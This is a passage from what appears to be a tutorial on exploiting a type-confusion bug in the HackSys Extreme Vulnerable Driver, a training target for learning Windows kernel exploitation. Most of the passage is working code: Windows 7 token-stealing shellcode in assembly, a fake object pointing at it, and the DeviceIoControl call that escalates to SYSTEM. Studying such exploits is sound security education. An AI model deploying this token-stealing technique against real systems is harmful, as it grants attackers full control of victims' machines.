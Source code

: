 //shellcode from the stackoverflow exploit minus the stack clean up since it is unneeded.
VOID TokenStealingShellcodeWin7() {
	__asm {
		; initialize
			pushad; save registers state

			xor eax, eax; Set zero
			mov eax, fs:[eax + KTHREAD_OFFSET]; Get nt!_KPCR.PcrbData.CurrentThread
			mov eax, [eax + EPROCESS_OFFSET]; Get nt!_KTHREAD.ApcState.Process

			mov ecx, eax; Copy current _EPROCESS structure

			mov ebx, [eax + TOKEN_OFFSET]; Copy current nt!_EPROCESS.Token
			mov edx, SYSTEM_PID; WIN 7 SP1 SYSTEM Process PID = 0x4

		SearchSystemPID:
		mov eax, [eax + FLINK_OFFSET]; Get nt!_EPROCESS.ActiveProcessLinks.Flink
			sub eax, FLINK_OFFSET
			cmp[eax + PID_OFFSET], edx; Get nt!_EPROCESS.UniqueProcessId
			jne SearchSystemPID

			mov edx, [eax + TOKEN_OFFSET]; Get SYSTEM process nt!_EPROCESS.Token
			mov[ecx + TOKEN_OFFSET], edx; Copy nt!_EPROCESS.Token of SYSTEM
			; to current process
			popad; restore registers state
	}
}
</pre>

We allocate memory for our structure and set the type value to '1'  and setup the 'func' pointer is to point to our shellcode.

<pre>
PFAKE_OBJ FakeData = (PFAKE_OBJ) HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeof(FAKE_OBJ));
FakeData->id = 0x1;
FakeData->func = (ULONG) &TokenStealingShellcodeWin7;
</pre>

Now we all need to do is send our fake object as the buffer for the IOCTL and we should be SYSTEM.

<pre>
DeviceIoControl(hDriver,
	HACKSYS_EVD_IOCTL_TYPE_CONFUSION,
	(LPVOID)FakeData,
	sizeof(FAKE_OBJ),
	NULL, //No output buffer - we don't even know if the driver gives output #yolo.
	0,
	&lpBytesReturned,
	NULL); //No overlap

system("calc.exe");
HeapFree(GetProcessHeap(), 0, FakeData);
CloseHandle(hDriver);
</pre>

The full exploit for this vulnerability can be found [here](https://github.com/sam-b/HackSysDriverExploits/tree/master/HackSysTypeConfusionExploit).